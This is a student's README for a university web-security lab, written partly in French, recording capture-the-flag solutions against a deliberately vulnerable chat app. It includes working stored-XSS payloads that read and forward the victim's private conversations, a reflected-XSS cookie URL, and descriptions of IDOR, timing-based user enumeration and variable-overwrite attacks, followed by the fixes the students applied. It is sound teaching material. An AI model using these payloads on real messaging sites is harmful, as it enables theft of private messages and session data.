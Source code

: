 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/Nx5uMN_1)
# 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

### Flag 1

**Flag**: flag1:fc7ec1d5433fedd2 - edwin.haeffner1

**Exploit**:

To send to Elon -> 

```html
<img src="https://pbs.twimg.com/media/F01O3WzWAAAOayr.jpg" onload="if (document.querySelector('#header .name').innerText !== 'Edwin') {
fetch('/conversation/b846414536e85208').then(function (response) { return response.text();}).then(function (html) {
document.getElementById('message').innerHTML = html;
document.getElementById('messageButton').click();});
}" width="100">
```

### Flag 2

**Flag**: flag2:7a3a245f0e4f1c8a - edwin.haeffner1
**Exploit**: 

To send to Elon -> 

```html
<img src="https://pbs.twimg.com/media/F01O3WzWAAAOayr.jpg" onload="if (document.querySelector('#header .name').innerText !== 'Häffner Edwin') {
let t = Array(...document.querySelectorAll('.conversation .last-message')).map(c => c.innerHTML.trim()).join('|||');
console.log(t)
document.getElementById('message').innerHTML = t;
document.getElementById('messageButton').click()
}" width="100">
```


### Flag 3

**Flag**: flag3:8f64c23480b8a1d5 - edwin.haeffner1

**Exploit**: 

First we get Trump's conversation ID with this : 

get Id : 

```html
<img src="https://pbs.twimg.com/media/F01O3WzWAAAOayr.jpg" onload="if (document.querySelector('#header .name').innerText !== 'Häffner Edwin') {
let t = Array(...document.querySelectorAll('.conversation')).map(c => c.id).join('|||');
console.log(t)
document.getElementById('message').innerHTML = t;
document.getElementById('messageButton').click()
}" width="100">
```
trump conv id : conversationb846414536e85208

And then we send those two messages to Elon ->

```html
<img src="https://pbs.twimg.com/media/F01O3WzWAAAOayr.jpg" onload="if (document.querySelector('#header .name').innerText !== 'Edwin') {
    fetch(`/conversation/b846414536e85208`, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({ message: 'gimme the rest of the codes pls' })
    })
        .catch((error) => console.log(error));
}" width="100">
```

And then

```html
<img src="https://pbs.twimg.com/media/F01O3WzWAAAOayr.jpg" onload="if (document.querySelector('#header .name').innerText !== 'Edwin') {
fetch('/conversation/b846414536e85208').then(function (response) { return response.text();}).then(function (html) {
document.getElementById('message').innerHTML = html;
document.getElementById('messageButton').click();});
}" width="100">
```

## Partie 2

### Flag 4

**Flag**: flag4:2b8362021c6866d9

**Exploit**:

By renaming myself "nextTimeout", we can overwrite the global variable that stores the timeout timestamp for 
automatically logging out inactive users. This causes the timeout mechanism to malfunction...

### Flag 5

**Flag**: flag5:35ea41b43585287f

**Exploit**: 

Unlike previously, it seems that we can access any discussion we want by putting the conversation ID in the URL.
Also, when we send a message that shouldn't be accepted (like an empty message), the server sends us an error. By examining
the error's content we get this : 

```json
{
    "error": "Operation not permitted",
    "reason": "Message is empty",
    "details": {
        "message": "",
        "sender": {
            "username": "edwin.haeffner2",
            "displayName": "h",
            "uniqueId": "856e248644a9fcbe",
            "conversationIds": [
                "2d40d4cc24b237ae",
                "231a781a0367b8b4"
            ]
        },
        "receiver": {
            "username": "Elon_edwin.haeffner2",
            "displayName": "Elon Musk",
            "uniqueId": "5cce529854010aa0",
            "conversationIds": [
                "2d40d4cc24b237ae",
                "acb11de20cc07496"
            ]
        }
    }
}
```

We can then see that Elon has another conversation ID that isn't us or trump. By typing this in the URL we get to see their
discussion with Mark Zuckerberg along the error code telling us that we can't access this discussion. And it contains the flag !

### Flag 6

Personnes inscrites à ChatsApp:
- `michelle.obama` true
- `barack.obama` false
- `hillary.clinton` true
- `george.w.bush` true
- `jane.doe` false
- `sam.altman` true
- `mira.murati` false
- `olivier.lemer` false

**Exploit**: 

We can see that when we try to log in with an existing user (myself) with a wrong password, it takes more than three seconds to
spit out an error message, but when I try with something random, it only takes around 100ms...


## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

The link used since we display the content of the param directly on the page : 

`http://185.143.102.102:8080/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3E`

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :

Nous avons fait les changements demandés : 

- Les attaques XSS ne devraient plus être possibles grâce à `xss.filterXSS()`
- Les erreurs n'indiquent plus trop d'informations
- Nouveau système d'authentification sécurisé avec `passport` et hashage des mots de passe avec `bcrypt`
- Le temps de connexion prend à peu près le même temps, indépendamment du fait que l'utilisateur existe ou non.
- Ajout pour que les cookies doivent provenir du même site afin d'éviter les attaques CSRF (non demandé)